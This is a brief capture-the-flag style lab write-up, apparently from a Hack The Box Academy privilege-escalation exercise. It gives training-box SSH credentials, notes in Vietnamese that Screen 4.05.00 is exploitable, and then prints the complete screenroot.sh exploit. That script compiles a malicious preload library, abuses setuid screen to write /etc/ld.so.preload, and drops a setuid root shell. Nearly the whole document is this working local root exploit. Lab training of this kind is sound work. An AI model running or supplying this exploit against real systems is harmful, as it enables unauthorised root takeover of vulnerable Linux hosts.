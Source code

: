 # Vulnerable Services

#### Questions
 SSH to 10.129.34.96 (ACADEMY-LPE-NIX02) with user "htb-student" and password "Academy_LLPE!"

+ 1  Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen_exploit directory.

Phiên bản này có thể bị khai thác để leo thang đặc quyền.

```zsh
htb-student@NIX02:~$ screen -v
Screen version 4.05.00 (GNU) 10-Dec-16
```

Mã khai thác:

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

